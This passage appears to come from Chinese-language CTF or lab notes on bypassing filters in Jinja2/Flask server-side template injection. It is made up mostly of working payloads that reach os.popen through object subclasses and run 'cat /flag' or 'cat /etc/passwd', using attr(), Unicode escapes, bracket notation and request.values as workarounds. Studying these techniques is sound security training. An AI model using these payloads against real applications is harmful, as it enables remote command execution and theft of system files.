 ```
http://192.168.204.149:18080/flasklab/level/6?class=__class__&base=__base__&sub=__subclasses__&geti=__getitem__&init=__init__&globals=__globals__
```

```
code={{()|attr(request.args.class)|attr(request.args.base)|attr(request.args.sub)()|attr(request.args.geti)(117)|attr(request.args.init)|attr(request.args.globals)|attr(request.args.geti)('popen')('cat /flag')|attr('read')()}}
```

## 2.编码绕过

utf-16

```
{{().__class__.__base__.__subclasses__()[199].__init__.__globals__}}
```



```
{{()|attr("\u005F\u005F\u0063\u006C\u0061\u0073\u0073\u005F\u005F")|attr("\u005F\u005F\u0062\u0061\u0073\u0065\u005F\u005F")|attr("\u005F\u005F\u0073\u0075\u0062\u0063\u006C\u0061\u0073\u0073\u0065\u0073\u005F\u005F")()|attr("\u005F\u005F\u0067\u0065\u0074\u0069\u0074\u0065\u006D\u005F\u005F")(199)|attr("\u005F\u005F\u0069\u006E\u0069\u0074\u005F\u005F")|attr("\u005F\u005F\u0067\u006C\u006F\u0062\u0061\u006C\u0073\u005F\u005F")}}
```

# 10.点"."过滤

## 中括号代替

```
{{''.__class__.__base__.__subclasses__()[117].__init__.__globals__["popen"]('cat /flag').read()}}
```

```
{{()['__class__']['__base__']['__subclasses__']()[117]['__init__']['__globals__']['popen']('cat /etc/passwd')['read']()}}
```



## attr代替

# 11.args过滤

## values可获取所有参数

request.values.cmd

# 12.smarty SSTI

